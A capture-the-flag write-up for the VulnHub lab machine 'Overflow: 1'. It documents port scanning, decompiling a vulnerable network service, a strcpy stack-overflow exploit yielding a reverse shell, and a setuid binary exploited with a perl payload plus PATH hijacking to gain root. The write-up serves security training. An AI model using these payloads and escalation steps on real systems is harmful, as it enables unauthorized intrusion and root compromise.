

# Overflow 1

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Overflow: 1](https://www.vulnhub.com/entry/overflow-1,300/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:U/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:U/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*A new machine works in VirtualBox. Two flags: user and root. Some easy overflow stuff. Doesn't get a NIC out of the box with VMware. Recommend VirtualBox *

## Summary
Overflow: 1 starts with a binary that can be download from the website, and that runs on port `1337`, after decompiled it with Ghidra, I can identify that it uses the unsafe `strcpy` and copy a max of 400 bytes into a buffer that only store 32 bytes. Then it is vulnerable to a stack buffer overflow, and the only security in the binary is a partially relocation of the address, then I was able to send a payload with the shellcode to perform a reverse shell and get the user flag. When exploring the server identifies antoher binary with setuid permissions that is also vulnerable to stack buffer overflow, and I identify that the binary runs a shell command using the `system` function, and the pointer that the `system` function uses is between the range of the overflow, then I could replace the pointer with any string I find in the binary and create a file called with that same string, and after add the current directory to the `PATH` enviroment then the file will be executed, and I could run any bash command as the root user.

1. CWE-120: Buffer Copy without Checking Size of Input
2. CWE-121: Stack-based Buffer Overflow
3. . CWE-676: Use of Potentially Dangerous Function
4. CWE-268: Privilege Chaining

#VirtualBox #Nmap #Ghidra #Pwntools #Python #GDB #BufferOverflow #CyberChef

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration
And I find out that the IP is `192.168.2.11`


And I start scanning the target with the `nmap`  command:
```shell
$ nmap -sV -oA scans/nmap-tcp-scan 192.168.2.11
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-06 08:19 EST
Nmap scan report for 192.168.2.11
Host is up (0.075s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.93 seconds
```
And I identify only open port `80`, and it runs `Apache httpd 2.4.25` services, when I scan the entire `65535` TCP ports:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.11
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-06 08:28 EST
Nmap scan report for 192.168.2.11
Host is up (0.0029s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
1337/tcp open  waste?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.92%I=7%D=1/6%Time=63B82392%P=x86_64-pc-linux-gnu%r(NUL
SF:L,A,"COMMAND\x20:\x20")%r(GenericLines,16,"COMMAND\x20:\x20TRY\x20HARDE
SF:R!\n")%r(GetRequest,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(HTTPOption
SF:s,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(RTSPRequest,16,"COMMAND\x20:
SF:\x20TRY\x20HARDER!\n")%r(RPCCheck,16,"COMMAND\x20:\x20TRY\x20HARDER!\n"
SF:)%r(DNSVersionBindReqTCP,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(DNSSt
SF:atusRequestTCP,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(Help,16,"COMMAN
SF:D\x20:\x20TRY\x20HARDER!\n")%r(SSLSessionReq,16,"COMMAND\x20:\x20TRY\x2
SF:0HARDER!\n")%r(TerminalServerCookie,16,"COMMAND\x20:\x20TRY\x20HARDER!\
SF:n")%r(TLSSessionReq,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(Kerberos,1
SF:6,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(SMBProgNeg,16,"COMMAND\x20:\x20
SF:TRY\x20HARDER!\n")%r(X11Probe,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(
SF:FourOhFourRequest,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(LPDString,16
SF:,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(LDAPSearchReq,16,"COMMAND\x20:\x
SF:20TRY\x20HARDER!\n")%r(LDAPBindReq,16,"COMMAND\x20:\x20TRY\x20HARDER!\n
SF:")%r(SIPOptions,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(LANDesk-RC,16,
SF:"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(TerminalServer,16,"COMMAND\x20:\x
SF:20TRY\x20HARDER!\n")%r(NCP,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(Not
SF:esRPC,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(JavaRMI,16,"COMMAND\x20:
SF:\x20TRY\x20HARDER!\n")%r(WMSRequest,16,"COMMAND\x20:\x20TRY\x20HARDER!\
SF:n")%r(oracle-tns,16,"COMMAND\x20:\x20TRY\x20HARDER!\n")%r(ms-sql-s,16,"
SF:COMMAND\x20:\x20TRY\x20HARDER!\n")%r(afp,16,"COMMAND\x20:\x20TRY\x20HAR
SF:DER!\n")%r(giop,16,"COMMAND\x20:\x20TRY\x20HARDER!\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 599.76 seconds
```
Then I find a second open port, `1337` , but it is an unrecognized service, and it runs on Debian, but `nmap` can't tell the version.

When I use the `http-enum` script of `nmap`:
```shell
$ nmap -p 80 -sV --script=http-enum -oA scans/nmap_http_scan 192.168.2.11
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-06 08:32 EST
Nmap scan report for 192.168.2.11
Host is up (0.0071s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-enum:
|_  /manual/: Potentially interesting folder
|_http-server-header: Apache/2.4.25 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Then it detects a directory called `/manual/`. But I think that it is the default `manual` endpoint from `Apache`. When I visit the website, then I can see a simple message:


And it says: `Dirbuster is not needed. Here is the file vulnserver`, then I download it with the wget command:
```shell
$ wget 192.168.2.11/vulnserver
```

## Normal use case
The website only allows us to download a file and I can guess by the title machine is a binary, and probably that is the custom service that runs on `1337`

## Static detection
Identify a stack buffer overflow vulnerability.

Given I downloaded the vulnserver file, then I use the `file` command to identify it:
```shell
$ file vulnserver
vulnserver: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0,
BuildID[sha1]=22c480f83765e0d4ca860fe9469074ba8f17295c, not stripped
```
Then I can conclude that it is a Unix executable. When I use the `checksec` command from the `pwntools`:
```shell
$ pwn checksec vulnserver
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```
Then I can conclude that there is little security available in the binary.

When I decompiled it with Ghidra, and in the main function I identify that it uses sockets, and it opens a listener in `0.0.0.0:1337` :



And that is the second port I found with `nmap` .

When I use nc to get the banner:
```shell
$ nc -nv 192.168.2.11
(UNKNOWN) [192.168.2.11] 1337 (?) open
COMMAND :
```
Then I can see that is the same banner that is in the decompiled code:


When I read from lines 58 to 61 of the decompiled `main` function:
```C
58  iVar2 = strncmp("OVERFLOW ",INPUT,9)
59  if (iVar2 == 0) {
60    handleCommand(INPUT);
61    write(fs,"COMMAND DONE\n",0xd);
```
And I can see that if I send the word `"OVERFLOW "`, then I can call the `handleCommand` function.
When I read the `handleCommand` function from line 7 to line 10:
```C
07    char local_2c [36];
...
09    strcpy(local_2c,param_1);
10    return;
```
Then it uses the `strcpy` function to copy `param_1` to `local2_C`, and I compare the size of both variables, and `local2_c` is a `char` of `36` bytes in size, and on line 57 of the main function:
```C
57 recv(fs,INPUT,0x400,0);
```
And it says that the max `INPUT` size is `400` bytes. When I copy more bytes than the max bytes declared in `local2_C`, then the value of the following addresses will be overwritten, and I can conclude that there is a stack buffer overflow vulnerability.

## Dynamic detection
The input in service on port `1337` is vulnerable to stack buffer overflow.

Given I have the binary, and with the banner I confirm that is the same one that runs in port `1337`
Then I can test the vulnerability. When I connect to the service with the `nc` command:
```shell
$ nc -vn 192.168.2.11 1337
(UNKNOWN) [192.168.2.11] 1337 (?) open
COMMAND: OVERFLOW AAAAAAAAAAAAAAAAAAAAAAA
```
Then I get no response , and I know that I always have to get `COMMAND DONE OR TRY HARDER!`, but I did not get either, and that means that there was a server error.

When I start the binary locally:
```shell
$ ./vulnserver
[+]Server Socket is created.
[+]Bind to port 1337
[+]Listening....
```
And I connect it with the `nc` command:
```shell
$ nc -vn 0.0.0.0 1337
(UNKNOWN) [0.0.0.0] 1337 (?) open
COMMAND :
```
And I found the PID process with ps:
```shell
$ ps aux | grep vulnserver
...
kil  10704  0.0  0.0 2448  60 pts/3  S+ 13:00  0:00 ./vulnserver
...
```
And now I know the PID `10704`. When I use `gdb` to debug the code:
```shell
$ gdb -q --pid 10704
```
Then I start exploring the assembler code, and I put a breakpoint at the beginning of the `handleCommand` function
And I continue the execution in `gdb`:


And in the `nc` connection, I send a payload of of 44 bytes. and I parse the stack with the `esp` register,
when I enter the `handleCommand` function, then I can see the bytes in the stack
And classify it:


When I put a breakpoint after the `strcpy` function, and I follow the execution, and I re-examine the stack with the `esp` register. and I notice how in `local2_C` only the first `36` bytes are written, and the remaining 8 bytes overwrite the `ebx`
and the `SFP` address:


Then I can confirm that there is a buffer overflow.

## Exploitation
Get reverse shell to server and exploit another binary to gain root access.

Given the vulnserver binary, and knowing that binary is the service that runs on port `1337`, and I identified that the vulnerability exists, and I locally ran the binary to experiment, then I need to identify which address I can return to
and I wrote a python script using pwntools [overflow.py](overflow.py), when I run it with the payload of line 25:
```
25  payload = nop_padding * number_nops + shellcode + return_addr
```
And I use `return_addr` with the reference of `local2_c`, and I debug it with `gdb`:


And I identify the structure of the payload in the stack:


And I noticed that the address in `esp` is different, then I conclude that it was a mistake to use an `esp` stack address, and I have to use an invariant address like the ones the functions define. And I found the `jmpesp` function


When I run it step by step, then I can conclude that I limited the payload to `return_addr`, but I can overwrite more than that, when I use the `jmpesp` address to return, and I use the payload of line 44:
```
44  payload = nop_padding * number_nops + return_addr + shellcode
```
Then it jumps until the address next to `return_addr`, and execute the shell code, but in this case, the shell was generated where the binary runs, and not where the exploit script is executed


When I change the attack vector to do a reverse shell, then it works


When I run the same attack on the remote server, then I get access to the user shell, and I got the user flag


When I run the `ls` command:
```shell
user@Overflow:/home/user$ ls -la printauthlog
-rwsr-xr-x 1 root root 15504 Apr  1  2019 printauthlog
```
And it has the set user ID in the execution permissions.
When I run the `file` command:
```shell
user@Overflow:/home/user$ file printauthlog
printauthlog: setuid ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,
for GNU/Linux 3.2.0,
BuildID[sha1]=22cc12fe7db6faba1a62f731ec1e2d1209268b20, not stripped
```
And that is another binary, probably with another stack overflow vulnerability.
When I encoded it with base64
```shell
user@Overflow:/home/user$ cat printauthlog | base64 > printauthlog.b64
```
And I copy to CyberChef to decode it and download the binary:


When I decompiled with Ghidra, and analyze it with `gdb`, then I can find the password `deadbeef`


And I can see another buffer overflow in the `strcpy` function, when I use the password with the binary:
```
$ ./printauthlog deadbeef
...
Jan  8 08:17:01 Overflow CRON[2032]: pam_unix(cron:session):
session opened for user root by (uid=0)
Jan  8 08:17:01 Overflow CRON[2032]: pam_unix(cron:session):
session closed for user root
```
And I checked the `main` function, and I found that when the password is correct, it executes a `shell` command, and this command is defined in the `main` function


When I debug normal execution using the `deadbeef` password, then I can see the pointer used for the `system` function


And identified that pointer is within the range of the overflow, and if I overwrite the return address to the shell function
And also overwrite the pointer used by the system to other text, and I put that string as a bash command, then I could run custom bash commands as the root user, and because of this, I search for a string in the code
When I run in `gdb`:
```shell
(gdb) x/s 0x08049268
0x8049268 <main+79>:  "g"
```
And now I use that address, but when I jump to the shell function the pointer is 4 bytes ahead, and I need to add 4 bytes of padding, when I run the command:
```shell
$ ./printauthlog $(perl -e \
> 'print "A"x68 . "\xa2\x91\x04\x08" . "B"x4 . "\x68\x92\x04\x08"')

sh: 1: g: not found
Segmentation fault
```
And it fails, it is because `sh` did not identify the `g` file in the `PATH` `env`. When I am in the target user's shell, and I added `/home/user` to the PATH:
```shell
$ user@Overflow:/home/user$ export PATH=/home/user:$PATH
```
And I created a file called `g` with the `id` command:
```shell
$ user@Overflow:/home/user$ echo id > g
```
And I give it execution permissions:
```shell
$ user@Overflow:/home/user$ chmod +x g
```
And I execute the same payload used previously, then I got:
```shell
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user),24(cdrom),
25(floppy),29(audio),30(dip),44(video),46(plugdev),
108(netdev),112(bluetooth)
```
And I can see the euid=0 with root permissions, when I save the following command in file `g`:
```shell
user@Overflow:/home/user$ echo "/bin/sh" > g
```
And I run the same payload, then I spawn a new shell with `euid=0(root)`, and I can access the `/root` directory, and I found the root flag :


## Remediation
Given vulnerable binary, use `strcpy_s()` instead of `strcpy()`.